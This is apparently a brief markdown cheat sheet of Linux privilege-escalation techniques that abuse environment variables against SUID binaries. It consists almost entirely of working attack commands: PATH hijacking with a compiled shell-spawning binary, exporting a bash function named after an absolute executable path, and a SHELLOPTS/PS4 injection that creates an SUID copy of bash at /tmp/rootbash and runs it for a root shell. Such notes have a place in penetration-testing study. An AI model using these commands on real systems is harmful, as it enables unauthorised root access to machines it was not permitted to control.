 # Environment Variables

## Example:

### 1: 

    /usr/local/bin/example-env

### 2: 

    strings /usr/local/bin/example-env

### 3: 

    gcc -o service /path/to/file.c (The code spawns bash shell. Works only if the full path of the original executable is NOT being used)

### 4: 

    PATH=.:$PATH /usr/local/bin/example-env

## TIP: 

### If the absolute path of an executable is used (strings) we can do:

#### 1: Check bash version: 

    /bin/bash --version

#### 2: 

    function /path/to/file {/bin/bash -p;}

#### 3: Run executable

### Example:

#### 

    env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/example2-env

#### 

    /tmp/rootbash -p

## Note: Doesn't work on Bash versions 4.4 and above!
